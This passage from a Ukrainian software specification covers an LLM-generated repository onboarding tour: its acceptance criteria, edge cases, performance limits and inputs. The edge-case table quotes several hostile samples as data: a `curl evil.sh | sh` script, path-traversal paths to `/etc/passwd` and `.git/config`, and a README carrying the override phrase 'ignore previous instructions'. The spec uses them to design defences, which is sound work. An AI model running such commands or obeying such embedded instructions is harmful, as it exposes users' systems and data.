| AC-3 | G4, G7, US-7 | Кількість файлів індексу і час генерування — два окремі факти в шапці | **макет** (`Generated from index of 12,450 files · last refreshed 2h ago`); `repo-intel/types.ts:34-46` |
| AC-4 | G7 | П'ять пунктів бічної навігації, підписи = заголовки секцій | **макет** (`ON THIS PAGE`) |
| AC-5 | G7 | Відкриття збереженого URL приводить до тієї самої секції | принцип «стан, яким діляться, живе в URL»; D14 |
| AC-6 | G1, G8 | Пункт у WORKSPACE; шорткат веде на сторінку; палітра має запис | **макет** (сайдбар); `client/src/vendor/ui/nav.ts:25-38`; `messages/en/shell.json:19` |
| AC-7 | G8 | Рядок нового шортката в довідці клавіш | `client/src/vendor/ui/nav.ts:60-63` («hand-maintained … needs an entry here too») |
| AC-8 | G8 | `e2e/specs/06-onboarding.flow.json` зелений без правок | `client/src/app/onboarding/page.tsx:1`; `app-shell/helpers.ts:29`; D2 |
| AC-9 | G1 | Той самий код відповіді для чужого і для неіснуючого репозиторію | IDOR; прецедент `SPEC-02` AC-31 |
| AC-10 | G1, US-1 | Проза називає шляхи цього репозиторію, наявні в індексі | **макет** (`Architecture overview`); дослівна вимога («загальна і детальна») |
| AC-11 | G1, G7, US-1 | Відрендерена діаграма в секції архітектури | **макет** (граф); `knowledge.ts:39` (`diagram` = mermaid) |
| AC-12 | G6 | Секція без діаграми, сторінка ціла | пара невдачі до AC-11; `onboarding.system.md:29` |
| AC-13 | G2, US-6 | Жоден вузол діаграми не клікабельний | D12; вузли макета змішані (`client`, `redis` — не файли) |
| AC-14 | G1, US-2 | Переліки файлів, що збігаються з ланцюгами фасаду | **макет** (`Critical paths`); `repo-intel/types.ts:219` |
| AC-15 | G1, US-2 | Шлях + пояснення в кожному рядку | **макет** (`src/server.ts — App bootstrap + middleware chain`) |
| AC-16 | G1, US-2 | Активація рядка відкриває цей файл у застосунку | **макет** (кнопка `Open` на кожному рядку) |
| AC-17 | G2 | Рядок із неіснуючим шляхом відсутній на екрані, присутній у відкинутому | пара невдачі до AC-16 |
| AC-18 | G6 | Явний текст при порожньому графі, без підміни топ-ранговими | `repo-intel/service.ts:704-705` (`edges.length === 0` → `[]`) |
| AC-19 | G1, US-3 | Блок команд на кожен знайдений пакет, із його назвою | **рішення людини 2026-08-17 (Q-4)**; D18; **макет** (`How to run locally`) |
| AC-20 | G7, US-3 | Скопійований рядок байт-у-байт дорівнює показаному | **макет** (іконка копіювання); обрізання сховало б хвіст команди |
| AC-21 | G2, US-3 | Названі змінні середовища є в прочитаному конфігу | дослівна вимога; **макет** (`cp .env.example .env`) |
| AC-22 | G2 | Жодного контролу, що виконує команду | N5; «не виконувати згенерований код» |
| AC-23 | G2, US-6 | Команда зі скриптом, якого немає в `package.json` цього пакета, відсутня | пара невдачі до AC-19; D18 |
| AC-24 | G6, US-6 | Явний текст із переліком шляхів, за якими шукали | пряма вимога людини; форма — `SPEC-01` AC-5 |
| AC-25 | G2, US-3 | Менеджер блоку дорівнює тому, що диктує лок-файл цього пакета | **рішення людини 2026-08-17 (Q-4)**; `AGENTS.md:32` («Do not mix») |
| AC-26 | G1, US-4 | Пронумерований перелік файлів із причинами | **макет** (`Guided reading path`) |
| AC-27 | G1, US-4 | Активація пункту відкриває цей файл | наслідок US-4 (порядок читання без переходу — список, а не план) |
| AC-28 | G2, US-4 | Перший пункт входить у ланцюги або в топ-ранг | `repo-intel/service.ts:678-702`; інакше «з чого почати» — здогад |
| AC-29 | G6 | Явний текст замість переліку | пара невдачі до AC-26 |
| AC-30 | G1, US-5 | Картка задачі з назвою, шляхом і міткою | **макет** (`First tasks`) |
| AC-31 | G5, US-5 | Рівно одне з трьох значень на кожній мітці | **дослівна вимога людини** («контракт значень, а не вільний текст») |
| AC-32 | G5 | Задача з `critical` відхилена, а не показана як `high` | пара невдачі до AC-31; `knowledge.ts:154-158` |
| AC-33 | G5, US-5 | Текст рівня в бейджі, не лише колірний стан | **макет** (`Low complexity` словами); прецедент `SPEC-02` AC-4 |
| AC-34 | G2 | Задача з неіснуючим шляхом відсутня, присутня у відкинутому | наслідок AC-37 |
| AC-35 | G6, US-6 | Явний текст замість нуля | пряма вимога людини; `client/INSIGHTS.md:1631-1633` |
| AC-36 | G1 | Жодного запису в жодну систему задач | межа обсягу: тур показує, а не заводить |
| AC-37 | G2, US-6 | Кожен показаний шлях відкривається в клоні на тому стані індексу | **дослівна вимога людини** («кожен файл, шлях, команда і задача мусить існувати») |
| AC-38 | G2, US-6 | Вигаданий шлях відсутній на екрані, присутній у записі | пара невдачі до AC-37; `knowledge.ts:187-189` |
| AC-39 | G2, US-6 | Шлях у прозі: посилання при збігу, звичайний текст інакше | **макет** (`src/server.ts` у абзаці); `SPEC-02` D19(а) |
| AC-40 | G2, US-8 | П'ять лічильників відкинутого в записі й у лозі | `conventions/routes.ts:57-59`; `conventions/helpers.ts:101-108` |
| AC-41 | G2 | Шлях із `..`, `.git/` або керуючим символом не стає посиланням | path traversal; `SPEC-01` AC-14 |
| AC-42 | G7 | Шоста секція не з'являється | наслідок D11 (закритий `kind`) |
| AC-43 | G2, US-6 | Жодної кількості в прозі | D7, D21; `contracts/brief.ts:35-39`; названа розбіжність із макетом |
| AC-44 | G6 | Секція без посилань стоїть на місці з прозою | наслідок AC-38 |
| AC-45 | G3 | Рівно одне звернення структурованого виклику на генерування | **дослівна вимога людини**; D3 |
| AC-46 | G4, US-7 | Друге і n-те відкриття: нуль викликів | наслідок D9 |
| AC-47 | G3 | Порахований вхід ≤ бюджету перед викликом | `conventions/constants.ts:57-63`; D23 |
| AC-48 | G3, US-8 | Статус кожного входу в записі; сумарний вхід у межах | пара невдачі до AC-47; D13 |
| AC-49 | G3 | Кожен зовнішній вхід усередині обгортки | `SPEC-01` AC-26, `SPEC-02` AC-23 |
| AC-50 | G3 | Генерування завершується в межах названого числа | `SPEC-02` NFR (дедлайн 600 000 мс у `OpenRouterProvider`) |
| AC-51 | G3 | Не більш ніж дві спроби; при провалі нічого не збережено | `reviewer-core/src/llm/structured.ts:54-79` |
| AC-52 | G3, US-8 | П'ять чисел у записі, зокрема кількість спроб | вимірювач умови перегляду D3 і D23 |
| AC-53 | G6 | Текст «модель не налаштована» з дорогою до Settings | D5; `SPEC-02` AC-42; `platform/errors.ts` (`ConfigError`) |
| AC-54 | G4, US-7 | sha і кількість файлів індексу в збереженому записі | D6; `schema/context.ts:123-129` (колонки під це немає) |
| AC-55 | G4, US-7 | Повторне відкриття: нуль викликів, той самий вміст | **дослівна вимога людини** (кеш і інвалідація) |
| AC-56 | G4, US-7 | Позначка з двома станами; жодного самочинного виклику | D6; **D22 (рішення координатора, Q-5)** |
| AC-57 | G4 | Один запис на репозиторій після двох регенерувань | D8; `schema/context.ts:124-126` (PK = `repo_id`) |
| AC-58 | G4 | Стан виконання; попередній тур не поданий як новий | прецедент `SPEC-02` AC-7 |
| AC-59 | G4 | Попереднього туру немає ніде після заміни | ціна D8, названа явно |
| AC-60 | G4, G6 | Попередній тур цілий; кнопка активна при `isPending === false` | пара невдачі до AC-57; `client/INSIGHTS.md:297-311` |
| AC-61 | G4 | Відмова на перевищенні межі; чужий репо не резолвиться | `conventions/routes.ts:23` (`max: 6, timeWindow: '1 minute'`) |
| AC-62 | G6, US-7 | Порожній стан із CTA, нуль викликів на відкритті | D9; `messages/en/onboarding.json:8-13` (блок `generate` уже написаний) |
| AC-63 | G2, G6 | Відмова з причиною; нуль викликів на непроіндексованому репо | `repo-intel/README.md:54-55` (`getIndexState` як гейт) |
| AC-64 | G6, US-8 | Тур із позначкою неповноти і числом пропущених файлів | `repo-intel/types.ts:25,34-38` |
| AC-65 | G6, US-8 | Перелік входів зі станами на сторінці | наслідок AC-48; прецедент `SPEC-02` AC-33 |
| AC-66 | G6 | Порожня секція на місці, пункт навігації на місці | зникнення блоку зсуває сторінку і читається як «вантажиться» |
| AC-67 | G6, US-6 | Жодного прикладу-заповнювача в жодній секції | **пряма вимога людини**; `INSIGHTS.md:205-212` |
| AC-68 | G2 | `` із файлу репозиторію видно як текст | stored XSS; `context-doc-view/DocumentReader.tsx` — єдиний такий рендерер |
| AC-69 | G2, US-3 | Текст, що приписує команди репозиторію, поруч із секцією | наслідок AC-20 і N5 |
| AC-70 | G2 | Довірений рядок перед першою обгорткою; `INJECTION_GUARD` без змін | `SPEC-01` AC-27 |
| AC-71 | G7 | Діаграма лише в архітектурі | `onboarding.system.md:7-8`; D15 |
| AC-72 | G7 | Не більше чотирьох посилань у секції | `onboarding.system.md:8` — рішення вже ухвалене скафолдингом |
| AC-73 | G2, G6 | Репо на Python/Go: відмова саме з цією причиною | `repo-intel/constants.ts:14` (`SUPPORTED_EXT`); D16, D19 |
| AC-74 | G3, G4 | Подвійний клік дає один виклик і одну відповідь обом | `modules/brief/service.ts:61` (наявний single-flight) |
| AC-75 | G7, US-8 | Показане число дорівнює тому, що віддає фасад | **розбіжність із макетом**; `repo-intel/constants.ts:52` |
| AC-76 | G2 | Шляхи й ідентифікатори не перекладені в жодній секції | `onboarding.system.md:43-44`; після D20 переклад ламав би AC-37 |
| AC-77 | G2, US-6 | Текст, що знімає з вузлів діаграми статус перевірених шляхів | друга половина AC-13; D12 |
| AC-78 | G2, US-6 | Кожне число на екрані простежується до індексу | друга половина AC-43; D7, D21 |
| AC-79 | G2 | Закривальний тег обгортки цілий при спрацьованому обрізанні | друга половина AC-49; `SPEC-01` AC-26 |
| AC-80 | G7 | Поле діаграми відсутнє, а не `""`, у чотирьох секціях | друга половина AC-71; `onboarding.system.md:35-36` |
| AC-81 | G7, US-8 | Підпис числа не стверджує, що це всі файли репозиторію | друга половина AC-75; `MAX_INDEXED_FILES = 5000` |
| AC-82 | G7 | У буфері — URL із якорем активної секції | **рішення людини 2026-08-17 (Q-1)**; D17; **макет** (`Share link`) |
| AC-83 | G6, US-8 | Три різні тексти для трьох причин відмови | **рішення людини 2026-08-17 (Q-6)**; D19 |
| AC-84 | G6 | Текст про відсутній індекс не обіцяє, що чекання допоможе | пара невдачі до AC-83; `repo-intel/types.ts:25` (стану «будується» немає) |
| AC-85 | G7 | Заголовки й бейджі з `messages/en`; `title` моделі не на екрані | **рішення людини 2026-08-17 (Q-7)**; D20; `knowledge.ts:37` |
| AC-86 | G3, G6, US-8 | Факт зрізання вибірки видно серед станів входів | **рішення координатора (Q-3)**; D23 |
| AC-87 | G2, US-3 | Блок пакета без лок-файлу не несе команди встановлення | пара невдачі до AC-25; D18 |
| AC-88 | G4 | Дві локалі клієнта дають той самий збережений тур | D20; наслідок D8 |
| AC-89 | G1, US-3 | `package.json` на глибині ≤ названої стає блоком; глибший — ні | **рішення людини 2026-08-17 (Q-8)**; D24; `AGENTS.md:5` (пакети DevDigest на глибині 1) |
| AC-90 | G6, US-8 | Число непоказаних пакетів видно при перевищенні стелі | D24; `simple-git.ts:457-458` (`bounded` уже є) |
| AC-91 | G2, US-3 | Стеля 12 на репозиторії з 40 JSON-файлами дає пакети, а не перші 12 JSON | D24; `adapters.ts:322-323` + `simple-git.ts:457,484` (зріз до фільтра) |
| AC-92 | G1, US-3 | Два генерування того самого репо дають той самий порядок блоків | наслідок D24 |
| AC-94 | G1, US-3 | Кореневий пакет — перший блок, і не втрачається при спрацьованій стелі | друга половина AC-92; наслідок AC-90 |
| AC-93 | G2 | Жодного блоку з `node_modules` / `dist` / `vendor` | `server/src/adapters/git/constants.ts:15-24` — порт це вже робить |

## Edge cases

| Випадок | Очікувана поведінка |
|---|---|
| Репозиторій додано, клон іде, індексу ще немає | Відмова з причиною «готового індексу немає», нуль викликів (AC-63, AC-83). Текст не обіцяє, що чекання допоможе (AC-84) — це не обережність, а єдине, що система може підкріпити. |
| Індекс частковий (`repo_too_large`) | Тур генерується, позначка неповноти, число пропущених файлів (AC-64). Часткова карта краща за жодну, доки видно, що вона часткова. |
| **Репозиторій на Python, Go, Rust або будь-чому поза TS/JS** | Відмова з власною, третьою причиною (AC-73, AC-83). Це не крайній випадок, а **звичайний стан для більшості репозиторіїв світу**: `SUPPORTED_EXT` — шість розширень (`repo-intel/constants.ts:14`). Рішення людини (Q-6) — часткового туру не будуємо; тому єдине, що фіча винна такому репозиторію, — сказати правду і не радити чекати. |
| Репозиторій без жодного конфігу | Явний текст із переліком шляхів, за якими шукали (AC-24). Найгостріше місце фічі: модель, якій нічого не дали, пише `npm install && npm start` упевнено і правдоподібно. |
| **Монорепо з кількома `package.json`** | Блок на кожен пакет, у кожному свій менеджер (AC-19, AC-25). DevDigest сам є цим випадком і сам показує, чому одна відповідь не годиться: `server/` і `client/` на pnpm, `reviewer-core/`, `e2e/` і `mcp/` на npm, «Do not mix» (`AGENTS.md:32`). |
| Модель написала `pnpm install` для пакета, поруч з яким лежить `package-lock.json` | Команда не показується (AC-25). **Це найімовірніша помилка всієї фічі, а не рідкісна:** модель бачить кілька пакетів, один звичний менеджер і генерує його скрізь. Помилка не косметична — `pnpm install` у npm-проєкті створює другий лок-файл, і людина це вже виконала, перш ніж помітила. |
| Пакет без жодного лок-файлу поруч | Блок без команди встановлення (AC-87). Дефолт був би здогадом, поданим як інструкція до виконання. |
| **Репозиторій без жодного `package.json`** | Секція запуску — один явний текст, що називає глибину і виключення обходу (AC-24). Решта чотирьох секцій повністю дійсна: це **не** відмова від туру, бо AC-83 відмовляє за станом індексу, а індекс тут цілий. Досяжно і не екзотично: бібліотека, що збирається деінде. |
| **Пакети лежать глибше за названу глибину** (`a/b/c/package.json` при глибині 2) | Не знайдені, отже не показані. Це видима межа, а не збій: якщо таких репозиторіїв виявиться багато, глибина — стартове число і переглядається (D24), а сигналом слугує рівно те, що секція порожня при непорожньому репозиторії. |
| **Монорепо на 40 пакетів** | Показано 12, і сказано, що 28 не показано (AC-90). Кореневий пакет у дванадцятці гарантовано (AC-92) — саме його втратити найдорожче. |
| Наївна реалізація попросила у порту `.json` зі стелею 12 | Заборонено AC-91. Зріз за `maxFiles` у порту стоїть **до** фільтра і працює за алфавітом, тож `apps/…/tsconfig.json` і `coverage-summary.json` можуть з'їсти всю стелю, і секція вийде порожньою на репозиторії з п'ятьма пакетами. Найтихіший спосіб зламати цю фічу. |
| `package.json` лежить під текою `vendor/` | Не знайдений: `vendor` входить до `EXCLUDED_WALK_DIRS` (`adapters/git/constants.ts:15-24`), успадкованих від порту разом із `node_modules` (AC-93). Для DevDigest це правильно — `server/src/vendor/shared/` не є пакетом; для репозиторію, що тримає справжній пакет під `vendor/`, це втрата, і вона є ціною того, що список виключень один на весь застосунок, а не власний у кожної фічі. |
| Модель назвала файл, видалений після індексування | Шлях перевіряється проти клону на стані індексу (AC-37). Якщо клон пересинхронізовано далі, рядок зникне — тур стане біднішим, а не неправильним; позначка застарілості (AC-56) пояснює, чому. |
| Модель повернула шлях `../../etc/passwd` або `.git/config` | Відхилено до перевірки існування (AC-41). `.git/` тут не теоретичний: він лежить усередині клону і перевірку існування пройшов би. |
| Модель написала `see src/server.ts` у прозі, і файл існує | Стає посиланням (AC-39). |
| Те саме, але файлу немає | Лишається звичайним текстом (AC-39). Читач бачить назву без посилання і не дізнається кліком, що її вигадали. |
| Модель повернула `kind: "gotchas"` або `"routes_and_apis"` | Секція відхилена (AC-42), лічильник відкинутого зростає (AC-40). Обидва рядки не вигадані: `gotchas` стоїть у `onboarding.json:10`, `routes_and_apis` — у `onboarding.system.md:7-8,23-26`, тобто модель побачить їх у промті, якщо його не почистити (D11). |
| Модель повернула `complexity: "trivial"` | Задача відхилена цілком, а не нормалізована до «низька» (AC-32). Нормалізація тут — здогад про намір моделі, і вона тиха. |
| Усі задачі відхилені заземленням | Секція на місці з явним текстом (AC-35). Нуль задач і «задач не знайдено» — різні твердження, і перше стверджує, що в репозиторії нема за що взятися. |
| Граф імпортів порожній при непорожньому індексі | Критичні шляхи — явний текст (AC-18), порядок читання — теж (AC-29). Архітектура і запуск працюють, бо спираються на скелет і конфіги, а не на граф. |
| **Дві вкладки натиснули Generate одночасно** | Один виклик, обидві отримують його результат (AC-74). Без цього найзвичайніший сценарій — подвійний клік по кнопці, що думає хвилину, — коштував би подвійно. |
| Регенерування впало на таймауті | Попередній тур цілий, причина показана, кнопка активна (AC-60). Порожня сторінка замість робочого туру була б регресом, за який ніхто не платив. |
| Схема не пройшла двічі | Нічого не збережено (AC-51), попередній тур цілий (AC-60). Кількість спроб записана (AC-52) — вимірювач умови перегляду D3, і саме цей випадок його живить. |
| Лічильник токенів деградував до евристики | Генерування відбувається, числа записуються (AC-52). Спека **не** стверджує, що бюджет витримано у провайдерських токенах у цьому режимі. Деградація незворотна в межах процесу, тож перший такий запис — сигнал про всі наступні. |
| Сервер перезапустили посеред генерування | Генерування синхронне і через `JobRunner` не йде (NFR), тож «завислого» рядка `running` не лишається — з'єднання рветься, запису немає, попередній тур цілий. Це і є причина, чому воно не в черзі: черга нічого не відновлює на старті. |
| Публічний репозиторій, чий `README` містить «ignore previous instructions» | Вміст обгорнутий і під guard (AC-49, AC-70). Залишковий ризик названий у `## Untrusted inputs` — він не усунений. |
| `package.json` містить `"dev": "curl evil.sh \| sh"` | Команда показується, якщо скрипт справді існує (AC-23) — заземлення її **пропустить**, бо вона справжня. Захист тут інший і єдиний чесний: команда — інертний текст, поруч сказано, що вона з репозиторію (AC-69), і застосунок її не виконує (AC-22). Прийнята ціна показу чужих скриптів, а не усунений ризик. |
| Тур згенеровано, потім індекс переіндексували | Позначка застарілості (AC-56), самочинного перегенерування немає (D22). Інакше кожен `resync` витрачав би гроші воркспейсу без чийогось рішення. |
| Модель написала «this file is used by 14 routes» | Кількість у прозі заборонена (AC-43). Або число рахує код з індексу (AC-78), або його немає. Названа розбіжність із макетом, закрита в D21. |
| Секція повернулася з `body`, що містить огорожі markdown | Парситься коректно: `parseWithRepair` пробує `JSON.parse` перед fence-екстракцією саме через цей випадок, і коментар називає його дослівно — «markdown code blocks in an onboarding `body`» (`reviewer-core/src/llm/structured.ts:57-60`). Граблі вже відомі й уже обійдені. |
| Секція повернулася з `diagram: ""` | Порожній рядок — не відсутність (AC-80). Промт це вже забороняє дослівно (`:35-36`), але заборона в промті — прохання; рендер порожнього рядка дає зламану діаграму замість жодної. |
| Репозиторій більший за 5 000 файлів | Індексуються перші `MAX_INDEXED_FILES = 5000`, решта осідає в `stats` (`repo-intel/constants.ts:52`). Шапка показує саме це число (AC-75) і не називає його кількістю файлів репозиторію (AC-81). |
| Файл більший за 400 КБ | Пропускається індексатором (`MAX_FILE_SIZE`, `constants.ts:53`), у ранг і граф не входить. Згенерований барель або великий vendored-файл у порядок читання не потрапить — що правильно. |
| Вибірку зрізало стелею у 20 файлів | Факт зрізання видно серед станів входів (AC-86). Стелі стартові (D23), тож саме ця видимість робить наступний перегляд можливим із чисел. |
| Читач перемкнув локаль інтерфейсу | Тур той самий (AC-88): `{{language}}` фіксований, у ключ генерування локаль не входить. Інтерфейс навколо туру міняється, вміст — ні, і сторінка лишається двомовною (D20). |
| Репозиторій видалено, поки тур відкритий | Запис зникає каскадом (`onDelete: 'cascade'`, `schema/context.ts:126`). Сторінка показує «репозиторію немає», а не порожній тур. |

## Module interactions

**Межа пакетів.** Фіча живе в `server/` і `client/`. `reviewer-core/` **читається, але не
змінюється**: використовується наявний `parseWithRepair`
(`reviewer-core/src/llm/structured.ts:54`), а `grounding.ts` тут не застосовний за побудовою —
він потребує уніфікованого дифу, якого в цієї фічі немає (D4).

**Контракт перетинає межу двічі, і форму його володіє сервер.** `Onboarding`,
`OnboardingSection`, `OnboardingLink` живуть у `vendor/shared/contracts/knowledge.ts`, а він
вендорований двічі. Серверна копія — джерело істини, і після зміни (D10 вимагає структури для
перших тасок, D11 — закритого `kind`) її треба віддзеркалити, бо типізація розходження не бачить
— кожен пакет компілюється проти власної копії, і ловить це окремий гейт (`AGENTS.md:89-93`).

**Сервер: композиційний корінь, не крос-модульний імпорт.** Новий модуль `onboarding` не має
права імпортувати `modules/repo-intel` — `no-cross-module` ловить навіть `import type`. Порт уже
є: `container.repoIntel` віддає фасад (`repo-intel/types.ts:196-219`), і саме через нього беруться
`getIndexState`, `getRepoMap`, `getCriticalPaths` і `getTopFilesByRank`. Читання файлів клону —
через наявний порт `GitClient.readFile` з байтовою межею, ніколи не `node:fs` із сервісу (D16).

**Клієнт: одна нова репо-рівнева сторінка.** Дані йдуть через хук TanStack Query, як усе інше;
`fetch` із компонента не викликається. Пара «читання + платна мутація» дзеркалить наявну пару
conventions (`GET /repos/:id/conventions` + `POST /repos/:id/conventions/extract` —
`conventions/routes.ts:38-62`), включно з тим, що межа частоти стоїть лише на другому, і з тим,
що результат мутації пишеться назад у ключ читання через `setQueryData` без інвалідації
(`client/src/lib/hooks/conventions.ts:8-28`).

## Non-functional requirements

| Вісь | Число |
|---|---|
| **Кількість викликів моделі** | **1** структурований виклик на генерування, з не більш ніж **однією** спробою ремонту схеми (AC-45, AC-51). **0** на будь-яке читання туру (AC-46). Одночасні запити не множаться (AC-74). |
| **Бюджет входу виклику** | **24 000 токенів** на зібраний вхід, порахований `container.tokenizer` **до** виклику. Число не вигадане: це `MAX_SAMPLE_TOKENS` з `conventions/constants.ts:63`, і виклик там того самого класу — дешева модель, читання всього репозиторію, перевірка результату проти клону після відповіді. Коментар над ним називає й ціну більшого бюджету: «at ~7k tokens the round trip is ~15s, and it grows fast enough that a generous budget turns "Re-scan" into something nobody presses». Для цієї сторінки це важить більше: `Regenerate` стоїть просто на екрані. |
| **Розподіл бюджету по входах** | Пріоритет спадання (D13): скелет репозиторію → конфіги пакетів → ланцюги критичних шляхів → зразки топ-рангованих файлів → наявні документи проєкту. Еластичний вхід рівно один — зразки. |
| **Механіка обрізання** | Спільний обхід `selectWithinBudget` / `truncateToBudget` — вони живуть у `server/src/modules/_shared/budget.ts`, а не там, де їх шукає `SPEC-02` D9: код переїхав із `modules/context/helpers.ts` 2026-08-16, і `context/helpers.ts` тепер лише реекспортує. Спека називає нову адресу, щоб планувальник не пішов за застарілим посиланням сусідньої спеки. |
| **Кількість зразкових файлів** | **20 файлів, 6 000 символів на файл — стартові значення, не остаточні** (D23). Двадцять, а не дванадцять як `TOP_FILE_COUNT` у `conventions` (`constants.ts:4`): там завдання вужче — витягти правила стилю з перших рядків, — а тур описує архітектуру і вигадує перші таски, тобто хоче ширший зріз. Стеля на файл лишається `MAX_FILE_CHARS`, бо вона **виведена, а не обрана**: тримає властивість «модель могла процитувати лише те, що ми можемо перевірити» (`conventions/constants.ts:29-47`). Обидва числа підпорядковані бюджету входу — при перевищенні ріже AC-48, і зрізане видно (AC-86). Перегляд робиться з чисел AC-52, зібраних на реальних турах. |
| **Покриття індексу** | **6 розширень** — `.ts`, `.tsx`, `.js`, `.jsx`, `.mjs`, `.cjs` (`repo-intel/constants.ts:14`). **5 000** файлів максимум (`MAX_INDEXED_FILES`), **400 КБ** на файл (`MAX_FILE_SIZE`). Конфіги в індекс не входять зовсім і читаються окремо (D16). Це не налаштування цієї фічі — це стеля, у якій вона живе, і причина відмови AC-73. |
| **Кількість файлів у шапці** | Те, що віддає фасад, — `filesIndexed` (AC-75). **Названа розбіжність із макетом:** «12,450 files» через це число недосяжне, бо індексатор зупиняється на 5 000. Сире «скільки файлів на диску» існує лише в `stats` усередині jsonb і назовні не проєктується. Показуємо чесне менше число і не підписуємо його як кількість файлів репозиторію (AC-81). |
| **Таймаут виклику** | **180 000 мс** явним годинником (AC-50). Виведено з сусіда і скориговано: `EXTRACT_TIMEOUT_MS = 120_000` у conventions (`constants.ts:66`) розмірений під **список речень**, а тут вихід — п'ять markdown-тіл, mermaid-діаграма і перелік задач, тобто кратно більше вихідних токенів. Число мусить бути названим, бо дефолти гірші за будь-який вибір: нативні адаптери мають 60 000 мс, а `OpenRouterProvider` — власний дедлайн **600 000 мс**, і саме він є дефолтним шляхом цієї фічі. |
| **Мова згенерованого вмісту** | **Українська, фіксовано в коді** (D20, AC-88). Наслідок для вартості й часу, який варто назвати: `cl100k_base` кодує кирилицю значно щедріше за латиницю, тож **вихід** дорожчий і довший за англомовний при тому самому вході. Бюджету входу (24 000) це не стосується — вхід є кодом і конфігами, тобто латиницею; зачіпає це вихідні токени, вартість і таймаут, і саме тому 180 000 мс узято з запасом, а не впритул. |
| **Межа частоти** | **6** генерувань за хвилину на воркспейс. Стала конвенція «однієї платної дії людини» — `conventions/routes.ts:23`, те саме в intent та blast. Ширші 20/хв із `SPEC-02` сюди **не** переносяться: двадцятка існує, бо в брифа два тригери і один із них не є натисканням. Тут тригер один і він завжди натискання (D9, D22). |
| **Вартість виклику** | Дефолт — `openrouter` / `deepseek/deepseek-v4-flash` (`contracts/platform.ts:44-50`), найдешевший клас у реєстрі, обраний під цю фічу заздалегідь. Вартість рахує `PriceBook` живими цінами OpenRouter із 6-годинним TTL і синхронним `estimate` (`platform/price-book.ts:5-38`); при холодному кеші — статична таблиця. Кепа на вартість одного виклику в репозиторії немає ніде — це стан справ, а не пропуск фічі. Обмежувачів рівно три, і всі непрямі: межа частоти, бюджет входу, і те, що генерування завжди явне. |
| **Поведінка без моделі** | Туру немає (D5). Детермінованої деградації свідомо не будуємо, хоча вона технічно доступна: `getCriticalPaths` і `getTopFilesByRank` — чисті читання індексу. Причина в D5 і вона про правдивість екрана. Стан — «модель не налаштована» з дорогою до Settings (AC-53). |
| **Поведінка без індексу** | Генерування відмовлене (AC-63), із трьома розрізнюваними причинами (AC-83). Це **жорсткіше**, ніж у сусідніх фічах: blast на непроіндексованому репозиторії деградує і віддає менше, а тур відмовляє зовсім, бо його вихід цілком складається з тверджень про структуру коду. |
| **Час відповіді читання** | p95 **< 150 мс**: одне читання за первинним ключем плюс перевірка орендаря плюс `getIndexState`. |
| **Час генерування** | Домінує виклик моделі. Збірка входу — p95 **< 2 000 мс**: читання індексу і до кількох десятків `readFile` з диска, кожен із байтовою межею. Від розміру репозиторію лінійно не залежить — кожен вхід capped. |
| **Незавершена фонова задача** | _Не застосовно, і це рішення._ Генерування синхронне в межах запиту і через `platform/jobs.ts` не проходить. `JobRunner` — in-process `p-queue`, через який ідуть клон, індексація і сканування контексту; задача, обірвана рестартом, лишила б рядок `running` назавжди, бо черга нічого не відновлює на старті. Платний виклик, за яким хтось стоїть і дивиться на спінер, у таку чергу класти нема сенсу. Ціна названа: генерування тримає з'єднання до 180 с. |
| **Турів на репозиторій** | **1** (D8, AC-57). Історії немає, скасування регенерування немає. |
| **Що лишається в БД** | Один рядок на репозиторій: п'ять секцій (проза, діаграма, посилання), перші таски з мітками, стан індексу, з якого зібрано, лічильники відкинутого, провайдер, модель, вартість, час, кількість спроб. **Текстів прочитаних файлів у записі немає** — лише шляхи і позначки, що вони увійшли. Видаляється разом із репозиторієм (`onDelete: 'cascade'`). |
| **Що НЕ лишається** | Зібраний текст промта. На відміну від прогону рев'ю, тур трейсу не веде; реконструювати вхід можна лише з тих самих входів. Вхід містить вміст чужого репозиторію, і зберігати його вдруге заради прозорості дорожче, ніж він вартий. |
| **Секцій на сторінці** | Рівно **5**, закритим переліком (AC-42). Не «до п'яти» і не «принаймні п'ять»: бічна навігація і порядок у макеті фіксовані. |
| **Посилань у секції** | не більше **4** (AC-72, `onboarding.system.md:8`). |
| **Перших тасок** | показано до **6**; більше — за розкриттям, із числом прихованих. Макет малює три в один ряд. Стеля потрібна, бо схема кількості не обмежує. |
| **Значень складності** | Рівно **3**, закритим переліком (AC-31). Не шкала і не число. |
| **Чисел, вироблених моделлю** | **0** (D7, D21, AC-43). |
| **Блоків пакетів у секції запуску** | **до 12 пакетів, глибина обходу 2 — стартові значення, не остаточні** (D24, AC-89, AC-90). Дванадцять покриває шість DevDigest із запасом і лишається переліком, який читають; глибина 2 покриває і розклад DevDigest (пакети на глибині 1), і поширений `packages/*` / `apps/*`. Перевищення видно з числом непоказаних (AC-90), тож перегляд робиться з побаченого, а не з припущення. |
| **Що з пошуку пакетів уже дає порт** | Виключення тек (`node_modules`, `dist`, `build`, `coverage`, `.next`, `out`, `vendor`, `.git` — `adapters/git/constants.ts:15-24`), відмову від симлінків і сигнал `bounded` про спрацьовану стелю (`simple-git.ts:457-458`). **Чого не дає:** фільтра за іменем файлу (лише за розширенням — `adapters.ts:322-323`) і межі глибини (`walkDocs` сходить до дна). Обидва — робота, і обидва названі, щоб планувальник не вважав `listFiles` готовим до цього виклику. |

## Inputs

| Вхід | Звідки фізично | Стеля | Відтворюваний |
|---|---|---|---|
| Скелет репозиторію | `container.repoIntel.getRepoMap(repoId, tokenBudget)` — кешований repo map (`repo-intel/types.ts:196`) | приймає власний бюджет токенів | так, для того самого стану індексу |
| Ланцюги критичних шляхів | `getCriticalPaths(repoId)` → `string[][]`, чисте читання `file_edges` + `file_rank` (`service.ts:697-712`) | глибина обходу задана реалізацією | так, для того самого стану індексу |
| Топ-ранговані файли | `getTopFilesByRank(repoId, n, { exclude })`, з відсіюванням тестів/конфігів/міграцій (`service.ts:673-695`) | 20 (D23), 10-кратний overfetch до фільтра | так |
| Стан індексу | `getIndexState(repoId)` → `status`, `lastIndexedSha`, `filesIndexed`, `filesSkipped`, `updatedAt` (`types.ts:34-50`) | — | так |
| Перелік пакетів | обхід клону через `GitClient.listFiles` — за іменем `package.json`, глибина ≤ 2 (D24). Порт сьогодні фільтрує лише за розширенням і межі глибини не має, тож обидві здатності — робота | 12 пакетів (D24); `node_modules`, `dist`, `build`, `coverage`, `.next`, `out`, `vendor`, `.git` виключені портом | так, доки клон не пересинхронізовано |
| Конфіги пакетів | `GitClient.readFile` з клону — **не з індексу**, він їх не бачить (D16) | байтова межа на файл, обов'язкова для цього порту | так, доки клон не пересинхронізовано |
| Лок-файли пакетів | `GitClient.readFile` / перевірка наявності поруч із `package.json` | наявність, не вміст | так |
